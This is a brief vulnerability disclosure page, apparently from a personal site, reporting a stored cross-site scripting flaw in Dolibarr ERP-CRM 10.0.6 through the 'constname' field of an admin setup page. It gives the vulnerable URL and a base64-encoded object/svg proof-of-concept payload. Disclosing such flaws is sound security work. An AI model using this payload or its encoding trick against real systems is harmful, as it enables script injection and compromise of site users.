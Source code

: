 ```yaml
---
title: 0day's
layout: page
permalink: /0days
---
```


# Dolibarr - Stored XSS [constname parameter]
# Version : 10.0.6
# Date: 17.01.2020
# Vendor : [https://www.dolibarr.org/](https://www.dolibarr.org/)
# CVE : N/A

Description: In this version of the Dolibarr ERP - CRM program is allows Stored XSS by placing a payload in the "constname" parameter field in other setup page.

# Url : http://localhost/htdocs/admin/const.php
# Payload : \<object data=data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+>\</object>
